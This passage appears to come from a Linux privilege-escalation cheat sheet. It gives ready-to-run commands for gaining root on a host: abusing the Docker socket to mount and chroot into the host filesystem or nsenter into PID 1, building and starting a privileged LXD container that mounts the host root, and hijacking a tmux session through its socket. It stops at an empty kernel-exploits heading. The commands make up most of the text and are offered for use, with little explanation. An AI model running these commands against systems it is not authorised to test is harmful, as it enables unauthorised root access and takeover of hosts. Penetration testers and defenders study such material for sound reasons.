 More docker privilege escalation using the Docker Socket.

```powershell
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### LXC/LXD

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

```powershell
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```powershell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively https://github.com/initstring/lxd_root


## Hijack TMUX session

Require a read access to the tmux socket : `/tmp/tmux-1000/default`.

```powershell
export TMUX=/tmp/tmux-1000/default,1234,0 
tmux ls
```


## Kernel Exploits
